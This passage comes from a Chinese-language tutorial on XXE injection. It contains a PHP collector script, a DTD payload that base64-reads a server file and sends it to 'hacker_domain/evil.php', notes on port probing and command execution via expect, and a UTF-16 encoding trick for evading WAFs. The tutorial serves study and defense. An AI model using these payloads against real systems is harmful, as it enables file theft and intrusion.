    evil.php 的内容如下：

    ```php+HTML
    <?php 
        file_put_contents("target_file.txt", $_GET['target_file']);
    ?>
    ```

4. 过程如下：

    payload 中，首先使用参数实体 `remote_dtd`，引入黑客的外部实体。然后引入的外部实体中，又有 `request` 的内部参数实体，接着调用该实体，就会导入 `attack` 的外部命名实体，最后调用该命名实体，在调用期间同时调用了 `target_file` 的外部参数实体，把 `target_file` 的内容传给黑客的服务器上的 `evil.php`，然后该 php 将内容输出到 `target_file.txt` 文件中。

5. 至于为什么若参数实体 `request` 和命名实体 `attack` 直接写在一起，不经过黑客的 DTD，写成：

    ```xml-dtd
    [<!ENTITY % target_file SYSTEM "php://filter/read=convert.base64-encode/resource=xxe02.php">
    <!ENTITY remote_dtd SYSTEM "http://hacker_domain/evil.php?target_file=%target_file;">]
    <a>&remote_dtd;</a>
    ```

    不起作用的原因是因为参数实体不能在DTD子集内调用，但是可以在外部子集中调用。

6. 其他可能的 payload：

    1. 如果第 5 点改成参数实体呢？（也就是不经过黑客的 DTD）

        经过实验，无法成功

    2. 如果没有 request 作为中转而直接调用外部的 DTD 呢？

        经过实验，也无法成功

    3. 暂时不知道无法成功的原因。


## 6. 利用场景

1. 内网探测，访问 http 访问指定端口来判断端口是否开启
2. 文件读取和命令执行：文件读取就看是否支持伪协议，命令执行在 php 的网站中就是是否开启了 `expect` 伪协议。

## 7. 一些绕过

1. 参考：

    > https://xz.aliyun.com/t/4059?time__1311=n4%2Bxni0QG%3DoCuRgDlxGObCDObG8DBmlGArrYD

### 7.1 外来编码（Exotic encodings）绕过

1. 一般使用正则表达式进行匹配的 waf，基本都是针对单个字符集，但是 XML 文档是可以使用别的编码。

2. 使用 Linux 中的 iconv 工具来对文件的编码进行转换：
    ```bash
    iconv -f utf8 -t utf-16 before.xml > after.xml
    ```

    源文件头部不需要注明编码（`encoding="..."`），其会自动识别。
